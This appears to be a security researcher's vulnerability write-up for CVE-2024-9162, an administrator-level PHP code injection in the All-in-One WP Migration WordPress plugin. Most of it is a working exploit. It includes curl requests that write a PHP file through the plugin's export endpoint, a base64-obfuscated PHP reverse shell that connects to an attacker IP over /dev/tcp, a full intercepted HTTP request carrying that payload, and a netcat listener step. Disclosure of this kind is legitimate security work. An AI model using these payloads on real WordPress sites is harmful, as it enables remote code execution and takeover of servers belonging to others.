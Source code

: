 +++
title = 'All-in-One WP Migration and Backup <= 7.86 - Authenticated (Administrator+) Arbitrary PHP Code Injection'
date = 2024-10-27T05:18:12+00:00
hideToc = true
+++
### CVE-2024-9162

The [All-in-One WP Migration plugin for WordPress](https://wordpress.org/plugins/all-in-one-wp-migration/) is vulnerable to arbitrary PHP Code Injection due to missing file type validation during the export in all versions up to, and including, 7.86. This makes it possible for authenticated attackers, with Administrator-level access and above, to create an export file with the .php extension on the affected site's server, adding an arbitrary PHP code to it, which may make remote code execution possible.

### TL;DR Exploits
* [CVE-2024-9162.sh](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.sh)
* [CVE-2024-9162.py](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.py)

### Details
The `ai1wm_secret_key` is a 12 character alphanumeric string created when the plugin is initialized. The key is **never rotated**, **does not expire**, and is **stored plain text** in the `wp_options` table.

```sql
mysql> SELECT option_name,option_value FROM wp_options WHERE option_name='ai1wm_secret_key';
+------------------+--------------+
| option_name      | option_value |
+------------------+--------------+
| ai1wm_secret_key | PwrqqK3UHQJo |
+------------------+--------------+
1 row in set (0.00 sec)
```

### Basic Proof of Concept:
This will create a php file containing a call to `phpinfo();`, which can be replaced with a better payload as seen in the manual reproduction section. Notice there is no authorization required beyond the secret key parameter. 
```bash
VICTIM_URL=https://wordpress.hacker
XFILE_NAME=lolz.php
XDIRECTORY_NAME=testauto
SECRET_KEY=PwrqqK3UHQJo

PRIORITY_INT=30
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=50
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=60
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"
```
![Screenshot from 2024-08-13 15-36-42](/posts/images/CVE-2024-9162/1.png)


### Manually To Reproduce:
It should be noted that the `php` file created via these steps will first appear in `wp-content/plugins/all-in-one-wp-migration/storage/EXPLOITDIR/EXPLOITFILE.php` before being deleted by the script and moved to `wp-content/ai1wm-backups/reverse_shell.php`. 

* Log in, Click all in one WP migration export to access the "Export Site" [page](https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export).
  * ![Screenshot from 2024-08-12 15-40-48](/posts/images/CVE-2024-9162/2.png)

*  In the **Find * Replace with** `<another-text>` **in the database**.
  * Input `*` into the *Find* box.
  * Input your crafted php payload into  into the *Replae With* box (`phpinfo();`, web shell, etc).
    * Reverse Shell Example: 
    ```php
    <?php eval( base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs=')); ?>
    ```
    * This will decode to 
    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.100.86/4444 0>&1' ");
    ```
  *  ![Screenshot from 2024-08-12 15-38-01](/posts/images/CVE-2024-9162/3.png)
* Setup Burp or similar tool and begin to proxy the traffic, then click the green "Export To -> File" option.
  *  ![Screenshot from 2024-08-12 15-42-30](/posts/images/CVE-2024-9162/4.png)
  *  ![Screenshot from 2024-08-12 15-39-38](/posts/images/CVE-2024-9162/5.png)
* Forward the first request: `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/1.1`, without manipulation.
* Forward: `GET /wp-admin/admin-ajax.php?action=ai1wm_status&ai1wm_import=1&secret_key=OYXj1AIdQUnc&_=1723495770325 HTTP/2`.
* Intercepting the request to `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2`
   * Modify the `archive` parameter to whatever name you like, and the `.php` extension, and then forward the request.
   *  ```
        POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2
        Host: wordpress.hacker
        Cookie: wordpress_sec_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7Cc65dd152f0c184235df35d5dfa28c50624b9f9a2fb01efb5077b150df76d286f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7C5c992aef75e3896a0909b9d480ae9e6505d89428c6975a490c30ce5b791c6bfe; wp-settings-time-1=1723500701
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
        Accept: application/json, text/javascript, */*; q=0.01
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export
        Content-Type: application/x-www-form-urlencoded; charset=UTF-8
        X-Requested-With: XMLHttpRequest
        Content-Length: 883
        Origin: https://wordpress.hacker
        Dnt: 1
        Sec-Gpc: 1
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Te: trailers
              action=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+eval(+base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs%3D'))%3B+%3F%3E&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=1j5v4ss1ls45&file=1&secret_key=OYXj1AIdQUnc&priority=10&archive=reverse_shell.php
       ```
    * ![Screenshot from 2024-08-12](/posts/images/CVE-2024-9162/fivee.png)
    * Turn off interception and let all other requests flow through until the job is completed and a download button is presented on the screen.
      * ![Screenshot from 2024-08-12 15-30-06](/posts/images/CVE-2024-9162/6.png)
    * Notice that the link to the downoad is a link to a php file containing the payload `https://wordpress.hacker/wp-content/ai1wm-backups/reverse_shell.php`.
    * Fire up a netcat listener on an attacking machine to catch the reverse shell `nc -lnvp 4444`.
    * Click the download button and catch the reverse shell.
      *   ![Screenshot from 2024-08-12 15-34-27](/posts/images/CVE-2024-9162/7.png)



